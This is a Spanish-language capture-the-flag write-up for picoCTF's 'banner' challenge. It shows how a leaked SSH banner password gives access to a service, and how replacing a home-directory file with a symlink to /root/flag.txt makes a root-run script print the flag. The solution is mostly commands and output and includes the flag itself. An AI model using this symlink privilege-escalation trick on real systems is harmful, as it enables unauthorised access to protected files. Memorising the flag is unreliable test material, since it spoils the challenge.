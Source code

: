 ### Descripción

Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 52410`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 63472`. From the above information abuse the machine and find the flag in the /root directory.

Primero nos conectamos al primer servidor mencionado y obtenemos lo que parece ser una contraseña.

```shell
┌──(chris㉿Chris)-[~]
└─$ nc tethys.picoctf.net 52410
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Después, ingresamos al segundo server y accedemos con la contraseña que acabamos de recibir, además de responder algunas preguntas

```shell
┌──(chris㉿Chris)-[~]
└─$ nc tethys.picoctf.net 63472
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

Inspeccionamos los archivos que existen.

```shell
player@challenge:~$ ls -al
ls -al
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
```

Encontramos un archivo llamado banner, el cual investigamos, sin embargo solo muestra un pequeño banner, por lo que vemos ahora lo que existe en root.

```shell
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************

player@challenge:~$ ls -al /root
ls -al /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 15 17:22 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

Encontramos un script que imprimía el banner y verificaba las respuestas de seguridad

```shell
player@challenge:~$ cat /root/script.py
```

```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

En el banner nos da una pista, por tanto, eliminamos el banner y creamos un enlace que apunte a flag.txt 

```shell
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
```

Cortamos la conexión, y volvemos a ingresar.

```shell
┌──(chris㉿Chris)-[~]
└─$ nc tethys.picoctf.net 63472
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}

what is the password? 
```

Obteniendo así la bandera.

### Notas adicionales

### Referencias


